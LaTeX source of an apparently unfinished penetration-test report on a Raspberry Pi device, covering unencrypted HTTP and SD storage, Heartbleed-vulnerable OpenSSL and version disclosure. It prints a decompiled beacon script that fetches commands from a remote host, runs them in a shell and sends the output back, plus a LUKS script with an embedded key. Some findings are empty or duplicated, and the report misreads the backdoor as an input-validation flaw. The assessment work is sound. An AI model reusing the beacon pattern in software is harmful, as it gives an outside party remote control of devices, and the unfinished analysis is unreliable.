    \textbf{\large Finding} & \textbf{\large No encryption for Webserver on Port 80}\section*{}\addcontentsline{toc}{section}{Finding 14 - No encryption for Webserver on Port 80}
    \\
    Risk& High\\
    Category& Misconfiguration\\
    Impact& An attacker can eavesdrop the network packages in plaintext\\\\
    Description& An nmap scan on the DUT indicated that the service running on port 80 is an unencrypted http service.
    \newline
    \newline
    
\includegraphics[width = 0.73\textwidth]{http_vulnerbility.jpg}
    \newline
    The indication that the service uses http is confirmed to be true after accessing the address 172.16.0.29:80.
	\\ 
	&\\
	&\\
    Recommendation& Use https instead to encrypt the data traffic for third parties.\\    
    \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
    \end{tabular*}
    \end{table}

\section{Finding 14 - Root OpenSSL access through management server}
\hrule\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{Root OpenSSL access through management server}\\
    Risk& Critical\\
    Category& Access Controls, Obfuscation\\
    Impact& An attacker can gain root access of the OpenSSH server.\\\\
    Description&
	\\ 
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    Recommendation& \\    
    \end{tabular*}
    \end{table}

\section{Finding 16 - No encryption for SD card of Raspberry}
\hrule\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.2cm}|}
        Risk& Critical\\
        \textbf{Finding} & \textbf{No encryption for SD card of Raspberry}\\
    Category& Cryptography, Misconfiguration\\
    Impact& An attacker can read all the data on \ac{SD} card\\\\
    Description& Due to the physical access to the device it was possible to remove the SD card of the device and plug it inside a SD card reader. The SD card reader was able to read out the unencrypted data stored on the device.
	\\ 
	&\\
	&\\
    Recommendation& Use encryption for the SD card of the Raspberry Pi. An example for the encryption could be the use of a password.\\    
    \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
	\end{tabular*}
    \end{table}

\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!30}}p{3cm}|p{17.3cm}|}
    \textbf{\large Finding} & \textbf{\large Remote Code Execution through vulnerable software}\section*{}\addcontentsline{toc}{section}{Finding 17 - Remote Code Execution through vulnerable software}
    \\
    Risk& Critical\\
    Category& Remote Code Execution\\
    Impact& An attacker can execute shell commands remotely\\\\
    Description& The extract of the ''check\_version.pyc'' file shown in the graphic below is vulnerable to a command injection attack, which allows an attacker to execute arbitrary commands on the DUT.
    \begin{lstlisting}[language=python]
#Source Generated with Decompyle++
# File: check_version.pyc (Python 3.9)
Unsupported opcode: WITH_EXCEPT_START
import requests
import subprocess
import base64
import urllib.parse as urllib
config = {
    'hostname': 'dhbw. johannes-bauer.com',
    'user-agent': 'Raspberry Pi Offensive Security 20CS1',
    'interface': 'etho' }
def get_mac(ifname):
    lines = subprocess.check_output([
        'ip',
        'link',
        'show',
        ifname]).decode('ascii').split('\n')
    return lines [1].split() [1]
headers = {
    'User-agent': config['user-agent'] }
with requests.Session() as sess:
    uri= f'' 'https://{config['hostname']}/offsec/'''
    args = {
        'mac': get_mac(config['interface']) }
    resp= requests.get(f
    if resp.status_code = 200:
        cmd= resp.text.rstrip('\r\n')
        output= subprocess.run(cmd, True, subprocess.PIPE, **('shell', 'stdout')).stdout
        encoded_rsp= base64.urlsafe_b64encode(output)
        args['rsp'] = encoded_rsp
        {uri} request.html?{urllib.parse.urlencode(args)}''', False, headers, **('verify', 'headers'))
        resp= requests.get(f {uri} response.html?{urllib.parse.urlencode(args)}''', False, headers, **('verify', 'headers'))
    None (None, None, None)
#WARNING: Decompyle incomplete
    \end{lstlisting}
    The vulnerability arises due to the script's use of user-controlled input as part of a shell command without proper input validation.
	\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
    \end{tabular*}
    \end{table}
    \begin{table}[htb]
        \renewcommand{\arraystretch}{1.5}
        \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.2cm}|}
        \textbf{\large Finding} & \textbf{\large Remote Code Execution through vulnerable software}\\
        Description& 
        The file was found by analyzing the running processes of the DUT within the OpenSSH servers running on port 22. The script sends a GET request to a remote server with the MAC-Address of the DUT as an argument. If the server responds with a 200 status code, the script executes the response arguments in a shell on the DUT. The attacker can craft a malicious response that includes arbitrary shell commands, which will then be executed on the DUT.
        The following command retrieves the MAC-Address of the network interface "eth0" from the DUT and includes it as an argument in a GET request to the server (/mac=MAC-Address):
        ''ip link show eth0''\\
        \\\\
        Recommendation&  To fix this vulnerability, the script should validate and sanitize the input before using it in a shell command. One way to achieve this is to use an appropriate library or function to escape any shell metacharacters in the input before using it in a shell command. Additionally, the script should limit the allowed characters and length of the input to only what is necessary for the intended functionality.\\   
        \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\ 
        \end{tabular*}
        \end{table}


\section{Finding 18 - ''userconf-pi'' usage}
\hrule\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{userconf-pi usage}\\
    Risk& High\\
    Category& Misconfiguration\\
    Impact& An attacker can modify the passwords of the users.\\\\
    Description& The DUT is equipped with the userconf-pi tool, which presents an interactive configuration menu on its first bootup with a display interface. The menu offers various options for user customization, including the ability to change the usernames of existing accounts. Additionally, users can modify the password for the selected account after the username has been changed. Consequently, changing a password can be easily accomplished by connecting a display to the DUT and initiating the first boot.
	\\ 
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    Recommendation& To ensure security and prevent users from changing any password upon the first boot, it is highly advised to uninstall the userconf-pi tool from the DUT via the apt package manager. However, if the tool is necessary, it's recommended to disable the feature that permits password changes upon the first boot by adjusting the relevant settings.\\    
    \end{tabular*}
    \end{table}


\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!30}}p{3cm}|p{17.3cm}|}
    \textbf{\large Finding} & \textbf{\large Vulnerable OpenSSL version}\section*{}\addcontentsline{toc}{section}{Finding 19 - Vulnerable OpenSSL version}
    \\
    Risk& Critical\\
    Category& Patching\\
    Impact& An attacker could exploit the Heartbleed vulnerability and read sensitive data. CVE-2014-0160\\\\
    Description& While checking the OpenSSL version of the service running on port 443 it turned out that the currently used version 1.0.1b which is vulnerable to the heartbleed bug. The version was checked by executing the command: ''openssl version''
	\\ 
	&\\
	&\\
    Recommendation& Patch OpenSSL to a secure version to address this vulnerability\\    
    \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
    \end{tabular*}
    \end{table}

\section{Finding  - Possible determination of OpenSSL version}
\hrule\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{gray!15}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{Possible determination of OpenSSH version }\\
    Risk& Informational\\
    Category& Information Disclosure\\
    Impact& An attacker is able to see the OpenSSL version of the service running on port 22\\\\
    Description& As shown in the graphic below the output of an nmap scan disclosed the version of the OpenSSH server.
    \newline
    \newline
    
\includegraphics[width=0.85\textwidth]{http_vulnerbility.jpg}
	\\ 
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    Recommendation&\\    
    \end{tabular*}
    \end{table}


\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{gray!15}}p{3cm}|p{17.3cm}|}
    \textbf{\large Finding} & \textbf{\large Possible determination of Apache Server version }\section*{}\addcontentsline{toc}{section}{Finding 21 - Possible determination of Apache Server version}
    \\
    Risk& Informational\\
    Category& Information Disclosure\\
    Impact& An attacker is able to see the Apache version of the service running on port 80\\\\
    Description& As shown in the graphic below the output of an nmap scan disclosed the version of the Apache server.
    \newline
    \newline
    
\includegraphics[width=0.85\textwidth]{http_vulnerbility.jpg}
	\\ 
	&\\
	&\\
    Recommendation& Edit the Apache Server configuration file. Change the value of ''ServerToken'' to ''Prod'' or ''ProductOnly''. This will remove the version number from the HTTP response headers and consequently the version will be hidden.\\    
    \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\

    \end{tabular*}
    \end{table}

\section{Finding - Outdated Sudo Version}
\hrule\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{yellow!15}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{Outdated Sudo version}\\
    Risk& Low\\
    Category& Patching\\
    Impact& \\\\
    Description& Executing the command: ''sudo -v'' displayed the sudo version 1.9.5p2 that the system is using. Although the installed version of sudo on the DUT is stable and has been available for some time, it is not the most recent version. As newer versions of sudo may have significant bug fixes, it is recommended to update to the latest version. While sudo 1.9.5p2 has fixed a critical vulnerability related to a Heap-based Buffer Overflow, it is still advisable to upgrade to the latest version.
	\\ 
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    Recommendation& To mitigate the vulnerabilities present in sudo, it is highly advisable to upgrade to the latest version of the software, which is free from such weaknesses. The official sudo website at sudo.ws offers the most recent stable releases of sudo. By updating to the latest secure version, users can effectively address known vulnerabilities and bugs, thereby enhancing the overall security and stability of their systems.\\ 
    \\\\\\\\\\\\\\\\   
    \end{tabular*}
    \end{table}

\section{Finding - Outdated Sudo Version}
\hrule\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{Outdated Sudo Version}\\
    Risk& \\
    Category&\\
    Impact& \\\\
    Description&
	\\ 
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    Recommendation&\\    
    \end{tabular*}
    \end{table}

\clearpage
\restoregeometry
}

\chapter{Abkürzungsverzeichnis}

\begin{acronym}
    \acro{DUT}[DUT]{Device Under Test}
    \acro{ssl}[SSL]{Secure Socket Layer}
    \acro{ssh}[SSH]{Secure Shell}
    \acro{http}[HTTP]{Hypertext Transfer Protokoll}
    \acro{tls}[TLS]{Tansport Layer Security}
    \acro{DoS}[DoS]{Denial of Service}
    \acro{https}[HTTPS]{Hypertext Transfer Protokoll Secure}
    \acro{SD}[SD]{Secure Digital}
\end{acronym}
\afterpage{
\newgeometry{left= 1.5cm,right = 1cm, bottom = 0.2 cm, top=0cm}
\chapter{Attachments}
\label{sec:attachment1}
        \begin{lstlisting}[language=python]
./pycdc /home/kali/Schreibtisch/todecompile.pyc
# Source Generated with Decompyle++
# File: todecompile.pyc (Python 3.9)
Unsupported opcode: JUMP_IF_NOT_EXC_MATCH import sys
import json
import subprocess
import hashlib
from cryptography.fernet import Fernet
key = b'dGH1BR5gJ6wz6rne0kvmW50UsgY_J3KBZlRIUmsSOYw='
fernet Fernet(key)
def filter_cpuinfo(data):
    data = data.decode('ascii')
    data = data.split('\n')
    data = (lambda .0: [ line for line in .0 if 'cpu MHz' not in line ])(data) data = (lambda .0: [ line for line in .0 if 'bogomips' not in line ])(data) data = '\n'.join(data)
    return data.encode('ascii')
    data_filters = {
    'filter_cpuinfo': filter_cpuinfo }
    def derive_password (configuration):
    Unsupported opcode: WITH_EXCEPT_START
    input_data = bytearray.fromhex('30b6a9aec9927ae4f718217ddee3453789847be071bb536cf14cf71d257ef09a')
    # WARNING: Decompyle incomplete
def open_luks_device(configuration, password):
    if configuration.get('debug'):
        print(f'''Opening LUKS device using password: {password}''')
    cmd = [
    'cryptsetup',
    'LuksOpen',
    configuration['source_dev'],
    configuration['mapper_name']]
    subprocess.check_output(cmd, f'''{password}\n'''.encode('ascii'), **('input',))
    def close_luks_device(configuration):
    if configuration.get('debug'):
        print('Closing LUKS device.')
    cmd = [
    'cryptsetup',
    'luksClose',
    configuration['mapper_name']]
    subprocess.check_call(cmd)
def add_luks_passphrase (configuration, old_password, new_password):
    if configuration.get('debug'):
        print(f'''Adding passphrase: {new_password} (using existing     passphrase: {old_password})''')
    cmd = [
    'cryptsetup',
    'LuksAddKey',
    '--batch-mode',
    '--pbkdf-pbkdf2',
    '--pbkdf-force-iterations=1000', configuration['source_dev']]
    subprocess.check_output(cmd, f'''{old_password}\n{new_password}\n'''.encode('ascii'), **('input',))
def remove_luks_passphrase(configuration, old_password, new_password):
    if configuration.get('debug');
    print(f'''Removing old passphrase: {old_password} (remaining passphrase: {new_password}''')
    cmd = [
    'cryptsetup',
    'LuksRemovekey',
    '--batch-mode',
        configuration['source_dev']]
    subprocess.check_output(cmd, f'''{old_password}\n{new_password}\n'''.encode('ascii'), **('input',)) configuration = None
encrypted_configuration = b'gAAAAABj6U1FMZKAOONUKUE5IWJFYrY8jeRSfl2TqYpqfIiTrTP8ceGBoffIZt7XvWS5pXWE9afjswEi_f Sq9D-tc Enh8QflWQu2j4l58VrbjbD1s8kWRqcv6p65XHDiFSEDPAL1ybZD5BslOpzBWI59wWVL-plUJz8FuIIpf01PWdq4sLcB3bSK pfSrT-CkurhXFzqpRPEaTovsW8QLKpCsQuxYjrMTQ0yE7bwAkAUhBJrxt7TIBfZQPpsqCbt5Emrpb6eiudBNgI_F5V1KoRdG8WbEie-i1ix-XMcqZu-RhKDkUjw70GT-TaAdb5Y_cd0YMPmr4vnnf9t6nD1LzK3K86MuC_2JDRq0Voz1XbqeM-yxIgipC5rJAs40kuBdNcFImJW2UJLF'

if configuration is not None:
    encrypted_configuration = fernet.encrypt(json.dumps (configuration).encode())
        \end{lstlisting}

\clearpage
\restoregeometry
}
% Beendet eine Seite und erzwingt auf den nachfolgenden Seiten die Ausgabe aller Gleitobjekte (z.B. Abbildungen), die bislang definiert, aber noch nicht ausgegeben wurden. Dieser Befehl fügt, falls nötig, eine leere Seite ein, sodaß die nächste Seite nach den Gleitobjekten eine ungerade Seitennummer hat. 
%\cleardoubleoddpage

% pagestyle für gesamtes Dokument aktivieren


\end{document}
